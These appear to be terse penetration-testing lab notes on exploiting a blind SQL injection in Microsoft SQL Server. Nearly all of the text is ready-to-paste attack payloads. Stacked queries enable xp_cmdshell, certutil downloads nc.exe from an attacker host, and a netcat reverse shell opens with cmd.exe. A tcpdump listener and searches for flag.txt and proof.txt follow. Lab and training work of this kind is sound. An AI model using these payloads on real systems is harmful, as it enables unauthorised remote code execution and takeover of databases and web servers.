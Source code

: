 must activate xp_cmdshell first
```
test';EXECUTE sp_configure 'show advanced options', 1;RECONFIGURE;EXECUTE sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
```

then test ping because it's blind
```
test';EXEC xp_cmdshell "ping 192.168.45.219"; --
```

then download the shell
```
test';EXEC xp_cmdshell "certutil.exe -urlcache -f http://192.168.45.194/nc.exe C:/Inetpub/wwwroot/nc.exe"; --
```

Then use the shell to get reverse shell
```
test';EXEC xp_cmdshell "C:/Inetpub/wwwroot/nc.exe -nv 192.168.45.194 4444 -e cmd.exe"; --

sudo tcpdump -i tun0 proto \\icmp
```

### windows web root C:/Inetpub/wwwroot
### search recursively: 

```
dir /s flag.txt
dir /s proof.txt
```



